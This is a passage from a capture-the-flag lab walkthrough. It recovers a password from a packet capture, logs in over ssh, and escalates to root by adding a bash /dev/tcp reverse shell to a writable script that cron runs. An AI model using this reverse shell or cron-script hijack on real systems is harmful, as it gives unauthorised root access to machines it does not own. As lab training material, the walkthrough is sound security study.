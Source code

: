 ```shell
ettercap -T -r suspicious.pcapng
```

Looking closely, we can find a password:

```shell
Fri Oct  2 19:41:45 2020 [70752]
TCP  192.168.22.139:4444 --> 192.168.22.139:40934 | AP (19)
c4ntg3t3n0ughsp1c3
```

Lets use it to get into lennie's ssh we mentioned before:

NICE! It worked.

>Now if we read the user.txt file, we will be able to get the user flag
{: .prompt-tip}

Now lets try to scale priveleges to get the root.txt flag

Diving into the scripts directory, we can appreciate a planner.sh file. Lets give it a look:

```ruby
$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
As we can see, its a Cron executable, which takes the input from print.sh (which can be edite by lennie), so we can write a reverse shell command inside it go gain access to root.

Lets just cd /etc directory and nano print.sh and add the following command:

>Before we run the command, we must open a netcat on a desired port. I will use the port 6666
```shell
bash -i >& /dev/tcp/{VPN IP}/6666 0>&1 
```

If you done it correctly, you are now root using a reverse shell

```ruby
listening on [any] 6666 ...
connect to [10.11.3.250] from (UNKNOWN) [10.10.249.130] 42518
bash: cannot set terminal process group (2773): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# ls
ls
root.txt
```
>Now you can submit the root flag! CONGRATULATIONS!!
{: .prompt-tip}
